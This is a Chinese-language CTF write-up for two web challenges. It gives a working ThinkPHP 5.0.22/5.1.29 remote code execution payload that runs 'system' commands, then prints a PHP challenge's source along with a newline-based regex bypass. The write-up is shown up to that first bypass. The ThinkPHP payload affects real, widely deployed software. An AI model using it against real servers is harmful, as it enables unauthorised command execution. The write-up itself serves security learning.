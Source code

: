 ## [SWPUCTF 2022 新生赛]ez_rce
- 扫目录，发现 `robots.txt`，访问对应目录，发现是 `ThinkPHP`，再用工具一扫。     
- 存在 ThinkPHP 5.0.22/5.1.29 RCE，Payload：
```URL
/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls;
```
- 发现 flag 不在 `/flag` 里，出题人把 flag 藏起来了，再仔细查看发现有 `/nss` 目录，那么再进一步探索发现 flag 在 `/nss/ctf/flag/flag` 里面。    

## [鹤城杯 2021]Middle magic
- 题目源码
```php
<?php
highlight_file(__FILE__);
include "./flag.php";
include "./result.php";
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

    $aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']);

    if(preg_match('/pass_the_level_1#/', $aaa)){
        echo "here is level 2";
        
        if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!</p>';
        // START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?";
                if (isset($_POST['level_3'])) {
                    $level_3 = json_decode($_POST['level_3']);
                    
                    if ($level_3->result == $result) {
                        
                        echo "success:".$flag;
                    }
                    else {
                        echo "you never beat me!";
                    }
                }
                else{
                    echo "out";
                }
            }
            else{
                
                die("no");
            }
        // perform validations on the form data
        }
        else{
            echo '<p>out!</p>';
        }
    }
    else{
        echo 'nonono!';
    }
    echo '<hr>';
}
?>
```
- 首先，第一个判断处由于其没有多行匹配 `/m`，所以我们可以使用换行符来绕过。
```TEXT
/?aaa=%0Apass_the_level_1%23
```